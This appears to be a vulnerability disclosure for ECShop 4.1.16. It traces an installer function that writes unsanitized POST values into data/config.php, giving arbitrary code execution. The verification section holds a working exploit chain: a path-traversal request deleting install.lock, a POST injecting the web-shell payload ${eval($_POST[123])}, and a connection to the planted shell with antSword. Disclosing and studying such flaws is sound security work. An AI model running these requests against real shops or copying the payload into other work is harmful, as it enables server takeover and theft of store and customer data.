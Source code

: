 # ECShop 4.1.16 Code Execution Vulnerability
## Application Info:
Name: ECShop

Version: 4.1.16

Website: http://www.ecshop.com

Download Link: http://update.shopex.com.cn/version/program/ECShop/download_ecshop_utf8.php

P.S. : You may need to register to download the source code. The source folder of this project is the source code of the latest version 4.1.16 on the official website of ecshop.

## Website Development 
Website Environment: Apache 2.4.x + MySQL 5.7.x + PHP 5.6.x

![image](https://github.com/Luci4n555/vul_report/assets/116565145/e63fc0a3-a86f-457b-8554-30fecf9c0f8c)

Website root directory: \source\ecshop

![image](https://github.com/Luci4n555/vul_report/assets/116565145/cd20a79a-78ba-4b63-80fd-8bf63979bae5)

## Vulnerability Position

![image](https://github.com/Luci4n555/vul_report/assets/116565145/80ca12a2-5a96-461c-930a-c3c611066c03)

In the create_config_file() function on line 313 of the \source\ecshop\install\includes\lib_installer.php file
```
function create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone)
{
    global $err, $_LANG;
    $db_host = construct_db_host($db_host, $db_port);

    $content = '<?' ."php\n";
    $content .= "// database host\n";
    $content .= "\$db_host   = \"$db_host\";\n\n";
    $content .= "// database name\n";
    $content .= "\$db_name   = \"$db_name\";\n\n";
    $content .= "// database username\n";
    $content .= "\$db_user   = \"$db_user\";\n\n";
    $content .= "// database password\n";
    $content .= "\$db_pass   = \"$db_pass\";\n\n";
    $content .= "// table prefix\n";
    $content .= "\$prefix    = \"$prefix\";\n\n";
    $content .= "\$timezone    = \"$timezone\";\n\n";
    $content .= "\$cookie_path    = \"/\";\n\n";
    $content .= "\$cookie_domain    = \"\";\n\n";
    $content .= "\$session = \"1440\";\n\n";
    $content .= "define('EC_CHARSET','".EC_CHARSET."');\n\n";
    $content .= "define('ADMIN_PATH','admin');\n\n";
    $content .= "define('AUTH_KEY', 'this is a key');\n\n";
    $content .= "define('OLD_AUTH_KEY', '');\n\n";
    $content .= "define('API_TIME', '');\n\n";
    $content .= "define('STORE_KEY','".md5(microtime() . mt_rand(0,1000))."');\n\n";
    $content .= '?>';


    $fp = @fopen(ROOT_PATH . 'data/config.php', 'wb+');
    if (!$fp)
    {
        $err->add($_LANG['open_config_file_failed']);
        return false;
    }
    if (!@fwrite($fp, trim($content)))
    {
        $err->add($_LANG['write_config_file_failed']);
        return false;
    }
    @fclose($fp);

    return true;
}
```
We control the variable value of $db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone by constructing these variable values, and write them into the data/config.php file, resulting in arbitrary code execution.
![image](https://github.com/Luci4n555/vul_report/assets/116565145/cb5e67aa-b088-4743-af5c-07b861e9fea0)

And we can call the vulnerable function create_config_file() in line 228 of the \source\ecshop\install\index.php file.

```
case 'create_config_file' :
    $db_host    = isset($_POST['db_host'])      ?   trim($_POST['db_host']) : '';
    $db_port    = isset($_POST['db_port'])      ?   trim($_POST['db_port']) : '';
    $db_user    = isset($_POST['db_user'])      ?   trim($_POST['db_user']) : '';
    $db_pass    = isset($_POST['db_pass'])      ?   trim($_POST['db_pass']) : '';
    $db_name    = isset($_POST['db_name'])      ?   trim($_POST['db_name']) : '';
    $prefix     = isset($_POST['db_prefix'])    ?   trim($_POST['db_prefix']) : '';
    $timezone   = isset($_POST['timezone'])     ?   trim($_POST['timezone']) : 'Asia/Shanghai';

    $data = array(
        'SHOP_DB_HOST' => $db_host,
        'SHOP_DB_PORT' => $db_port,
        'SHOP_DB_DATABASE' => $db_name,
        'SHOP_DB_USERNAME' => $db_user,
        'SHOP_DB_PASSWORD' => $db_pass,
        'SHOP_DB_PREFIX' => $prefix,
        'SHOP_URL' => 'http://'.$_SERVER['HTTP_HOST'],
        'SHOP_H5' => 'http://'.$_SERVER['HTTP_HOST'].'/h5',
        'TOKEN_SECRET' => md5(time() . mt_rand(0,1000))
        );

    $result = create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix,  $timezone);
    $result_api = create_env($data,'appserver');
    $result_h5 = create_env($data,'h5');

    if ($result === false || $result_api === false || $result_h5 ===false)
    {
        echo implode(',', $err->get_all());
    }
    else
    {
        echo 'OK';
    }


    break;
```

## Vulnerability Verification
In order to achieve the purpose of file writing, we need to use CVE-2023-39112 to delete the specified file. The following is the request packet to delete the file, and the administrator cookie needs to be supplemented.
```
POST /admin/database.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

act=remove&file[]=../../data/install.lock
```

![image](https://github.com/Luci4n555/vul_report/assets/116565145/edfd2d8c-059c-4586-a133-d71c8a94cd91)

Then we exploit this vulnerability to write malicious code.
```
POST /install/index.php?step=create_config_file HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Connection: close

db_user=${eval($_POST[123])}
```

![image](https://github.com/Luci4n555/vul_report/assets/116565145/7b102c21-4fe4-4546-9c25-f775cafa3886)

We can see that the file source\ecshop\data\config.php has inserted malicious code.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/05ed5a74-4f70-444b-916e-eab1f030d402)

Finally we use the antSwordPublic tool to connect and test code execution.
The link address is: http://127.0.0.1/data/config.php, the password is 123.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/2dd54abb-0ee7-4167-a0a6-9e0cc3259624)

Successful execution of arbitrary code.
